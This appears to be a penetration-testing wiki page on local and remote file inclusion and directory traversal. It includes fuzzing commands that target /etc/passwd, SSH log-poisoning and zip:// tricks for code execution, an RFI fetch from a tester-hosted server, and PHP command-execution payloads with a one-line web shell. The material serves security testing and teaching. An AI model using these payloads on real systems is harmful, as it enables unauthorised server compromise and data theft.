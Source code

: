 # File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters \(cookies, GET or POST parameters\) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI \(Local/Remote File Inclusion\) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE \(Remote Code Execution\) or to client-side attacks such as XSS \(Cross-Site Scripting\).

Directory traversal \(a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack\) attacks allow attackers to include sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to access files with a relative path.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for file related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* **Local File Inclusion** : inclusion of a local file \(in the web server directory\) using an absolute path
* **LFI + directory traversal** : inclusion of a local file \(in the web server directory or not\) by "climbing" the server tree with `../` \(relative path\)
* **Remote File Inclusion** : inclusion of a remote file \(not on the server\) using an URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) \(Perl\) can help finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) \(C\) can help finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

### From file inclusion to code execution

Depending on the environment, file inclusions can sometimes lead to RCE \(Remote Code Execution\) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

#### LFI to RCE

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
ssh '<?php phpinfo(); ?>'@$TARGET
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

Another way of achieving RCE from LFI is to combine it with [file upload](unrestricted-file-upload.md).

1. Upload a `.zip` file containing a PHP code execution script \(`rce.php`\)
2. Trigger the code execution by requesting `http://some.website/?page=zip://path/to/file.zip%23rce.php`.

#### RFI to RCE

The tester can create a `phpinfo.php` containing `<?php phpinfo(); ?>` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the phpinfo in the response.

{% hint style="warning" %}
If the the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.
{% endhint %}

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute code with one of the following payloads.

{% hint style="info" %}
As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.
{% endhint %}

```php
<?php system('whoami'); ?>
<?php exec('whoami'); ?>
<?php passthru('whoami'); ?>
<?php shell_exec('whoami'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/directory-traversal" caption="" %}

{% embed url="https://portswigger.net/web-security/file-path-traversal" caption="" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/05-Authorization\_Testing/01-Testing\_Directory\_Traversal\_File\_Include.html" caption="Directory traversal and File Include" %}

{% embed url="https://owasp.org/www-community/attacks/Path\_Traversal" caption="Testing for Directory traversal" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.2-Testing\_for\_Remote\_File\_Inclusion.html" caption="Testing for Remote File Inclusion" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.1-Testing\_for\_Local\_File\_Inclusion.html" caption="Testing for Local File Inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" caption="" %}

